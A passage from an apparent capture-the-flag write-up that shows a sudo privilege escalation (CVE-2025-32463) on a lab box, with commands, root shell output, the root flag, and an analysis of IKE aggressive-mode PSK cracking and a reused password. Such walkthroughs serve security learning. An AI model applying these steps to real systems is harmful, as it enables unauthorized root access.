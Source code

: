 ### CVE-2025-32463 Exploitation

The presence of a newer sudo version and the wget command for `sudo-chwoot.sh` suggests exploitation of CVE-2025-32463, a sudo privilege escalation vulnerability.

**Exploit execution:**
```bash
chmod +x /tmp/sudo-chwoot.sh
/tmp/sudo-chwoot.sh
```

**Result:**
```bash
woot!
root@expressway:/# id
uid=0(root) gid=0(root) groups=0(root),13(proxy),1001(ike)
```

### Root Flag
Located at `/root/root.txt`:
```
6f5f991819fcc72e2c7cdfcbbe0936fe
```

## Technical Analysis

### IKE Aggressive Mode Vulnerability

**What is IKE Aggressive Mode?**
- IKE (Internet Key Exchange) is used to establish secure IPSec tunnels
- **Main Mode**: Exchanges identity information after establishing secure channel
- **Aggressive Mode**: Exchanges identity information in clear text for faster negotiation

**Security Impact:**
- Aggressive mode exposes the PSK hash in the first exchange
- Attackers can capture this hash and perform offline dictionary attacks
- No rate limiting or account lockout protection

### Password Reuse Attack Vector

The attack succeeded due to **credential reuse**:
1. VPN PSK: `freakingrockstarontheroad`
2. SSH password: `freakingrockstarontheroad` (same credential)

This demonstrates poor security practices where the same credential is used across multiple services.

### Sudo CVE-2025-32463

This appears to be a recent sudo vulnerability allowing local privilege escalation. The exploit `sudo-chwoot.sh` successfully bypassed sudo restrictions to gain root access.

## Attack Chain Summary
